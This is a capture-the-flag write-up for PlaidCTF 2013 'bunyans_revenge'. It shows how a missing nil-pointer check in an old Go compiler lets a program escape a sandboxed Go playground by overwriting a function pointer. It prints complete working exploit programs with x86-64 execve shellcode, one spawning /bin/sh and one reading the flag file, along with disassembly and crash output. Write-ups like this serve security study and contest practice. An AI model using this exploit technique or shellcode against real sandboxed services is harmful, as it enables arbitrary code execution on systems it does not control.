 ```yaml
---
title: PlaidCTF 2013 bunyans_revenge writeup
author: cbmixx
layout: post
permalink: /plaidctf-2013-bunyans_revenge-writeup/
categories:
  - writeup
---
```

## Overview

The task is to get a shell on a sandboxed Go [site][1], with help of a [ patch ][2].Snippet below shows main part of the patch:

<pre>diff -r a7414a294dcb src/cmd/6g/cgen.c
--- a/src/cmd/6g/cgen.c Fri Apr 19 12:00:40 2013 -0700
+++ b/src/cmd/6g/cgen.c Fri Apr 19 21:03:47 2013 +0000
@@ -888,18 +888,18 @@
    
    case ODOTPTR:
        cgen(nl, res);
+       // explicit check for nil if struct is large enough
+       // that we might derive too big a pointer.
+       if(nl-&gt;type-&gt;type-&gt;width &gt;= unmappedzero) {
+           regalloc(&n1, types[tptr], res);
+           gmove(res, &n1);
+           n1.op = OINDREG;
+           n1.type = types[TUINT8];
+           n1.xoffset = 0;
+           gins(ATESTB, nodintconst(0), &n1);
+           regfree(&n1);
+       }
        if(n-&gt;xoffset != 0) {
-           // explicit check for nil if struct is large enough
-           // that we might derive too big a pointer.
-           if(nl-&gt;type-&gt;type-&gt;width &gt;= unmappedzero) {
-               regalloc(&n1, types[tptr], res);
-               gmove(res, &n1);
-               n1.op = OINDREG;
-               n1.type = types[TUINT8];
-               n1.xoffset = 0;
-               gins(ATESTB, nodintconst(0), &n1);
-               regfree(&n1);
-           }
            ginscon(optoas(OADD, types[tptr]), n-&gt;xoffset, res);
        }
        break;
</pre>

It seems that he try to enforce the check related to nil, big struct, and pointer. This tell us that before patching we should be able to derive &#8220;too big a pointer&#8221; with help of nil and a large struct.

## Unsafe pointer

After some reading of the source code, we knew more about which type of code related to the patch.

<pre>// src/cmd/gc/go.h, 478L
    ODOT,   // t.x
    ODOTPTR,    // p.x that is implicitly (*p).x
    ODOTMETH,   // t.Method

// src/cmd/6g/gsubr.c, 37L
// TODO(rsc): Can make this bigger if we move
// the text segment up higher in 6l for all GOOS.
vlong unmappedzero = 4096;
</pre>

And we wrote snippets of code, which does fall in the old check, or bypass it (explicitly call the pointer)

<pre>type T struct {
    offset [4096]byte
    x int
}

// fail:( 
var t *T
x := &(t.x)
*x = 0
// ** panic msg while running **
panic: runtime error: invalid memory address or nil pointer dereference
[signal 0xb code=0x1 addr=0x0 pc=0x400c19]

// pass:)
var t *T
x := &((*t).x)
*x = 0
// ** panic msg while running **
unexpected fault address 0x1000
throw: fault
[signal 0xb code=0x1 addr=0x1000 pc=0x400c1c]
</pre>

## Changing code flow

The sandbox doesn&#8217;t allow us to import packages containing unsafe parts, which make the compiler not compile in any unsafe runtime code, so we need to prepare the shellcode ourselves. Soon we found that function type in Go, like function pointer in C may help us. Due to NX bits, we need to put shellcode in executable areas. Using const string seems to be a good idea. Finally we worked out a piece of code running flawless in the local environment:

<pre>package main
    
type T struct {
// magic numbers are from objdump:(
    offset [0x4283f8]byte
    x int64
}

type Func func(string)
var f Func

// execve('/bin/sh', ['/bin/sh'], NULL)
const shellcode = "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08" +
"\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05"

func main() {
    var t *T
    x := &((*t).x)
    *x = 0x417c5c
    // avoiding unused const optimized out, not a real argument
    f(shellcode)
}
</pre>

However it didn&#8217;t work on the site. First the memory layout seems not to be like that in our local environment, but we could pass it by fixing the offset in struct(we can &#8220;read&#8221; it from .text section online). Though calling shellcode fails still.

We noticed that panic message from the site differs from ours, which contains a file named &#8220;panic.c&#8221; not existing in our source code. It seems that they were using a different branch of Go. After searching we found this [repo][3] seems to fit theirs code well.

<pre>goroutine 1 [running]:
[fp=0x7f8bbd3bbf60] runtime.throw(0x4420d7)
    /home/bunyansrevenge/go/src/pkg/runtime/panic.c:473 +0x67
[fp=0x7f8bbd3bbf78] runtime.sigpanic()
    /home/bunyansrevenge/go/src/pkg/runtime/os_linux.c:239 +0xe7
[fp=0x7f8bbd3bbf90] main.main()
    /tmp/go-sandbox728098232/prog.go:18 +0x20
</pre>

Comparing binary compiled by these 2 branches, we saw the difference on handling function calling: modern ones just jump to the address stored in the memory, but the other storing the address in another location, and storing that address in the memory. See the disassembly for details:

<pre># modern ones
400c37:       48 8b 1c 25 f8 83 42    mov    0x4283f8,%rbx
400c3e:       00 
400c3f:       ff d3                   callq  *%rbx

# the other
400c3d:       48 8b 14 25 10 41 44    mov    0x444110,%rdx
400c44:       00 
400c45:       48 8b 1a                mov    (%rdx),%rbx
400c48:       ff d3                   callq  *%rbx
</pre>

So we need to change the code fitting compiler running on the site. At last it works. The complete piece of code for capturing the flag goes below:

<pre>package main
    
type T struct {
    offset [0x444110]byte
    x *int64
}

type Func func(string)
var f Func
    
// execve('/usr/bin/cat', ['/usr/bin/cat', 'flag'], NULL)
const shellcode = "\x48\x31\xd2\x48\xc7\xc1\x66\x6c\x61\x67\x51\x48\x89\xe1" +
"\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x63\x61\x74\x53\x48\x89\xe7\x48\x31\xc0\x50" +
"\x51\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05"
    
    
func main() {
    var _x int64
    _x = 0x42f5b0
    var t *T
    x := &((*t).x)
    *x = &_x
    // avoiding unused const optimized out, not a real argument
    f(shellcode)
}
</pre>

The flag is **nx&#95;was&#95;a&#95;good&#95;idea&#95;after&#95;all**.

 [1]: http://50.17.64.205:8080/
 [2]: http://play.plaidctf.com/files/go.patch-ec4d1d0cd43f70526b2864d8ccae2e3db63fd7cc
 [3]: https://github.com/jnwhiteh/golang